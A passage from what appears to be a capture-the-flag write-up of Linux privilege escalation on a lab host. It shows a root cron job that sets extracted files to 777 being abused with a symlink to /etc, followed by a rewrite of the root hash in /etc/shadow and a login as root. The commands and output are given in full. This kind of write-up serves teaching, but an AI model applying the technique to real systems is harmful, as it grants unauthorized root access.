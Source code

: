 The cronjob changes the permissions to 777 when it extracts the backup archive. If we swap the `courses` directory in the `~/work/tmp` folder with a symlink to `/etc` it'll change the permissions of `/etc` and everything in it to 777:
```
giovanni@teacher:~/work/tmp$ rm -rf courses
giovanni@teacher:~/work/tmp$ ln -s /etc courses

giovanni@teacher:~/work/tmp$ ls -l / | grep etc
ls -l / | grep etc
drwxrwxrwx 85 root root  4096 Apr 18 21:55 etc
```

Now that we have complete read-write access to anything in `/etc` we can change the password of the root user to anything we want:
```
giovanni@teacher:/etc$ mkpasswd -m sha-512 yolo1234
$6$jfdDr.oQ3xp6H/Em$iIPF1i31pZ/SeZe31/LDhruZFflDbmiFdsln.BA2w./lOtMUHMZYLOwsPAJaufSB4/Sn/gNIwZMWquEGR.sh1/
```

After editing the `/etc/shadow` file we can log in as root:
```
giovanni@teacher:/etc$ su -l root
Password: 
root@teacher:~# id
uid=0(root) gid=0(root) groups=0(root)
```
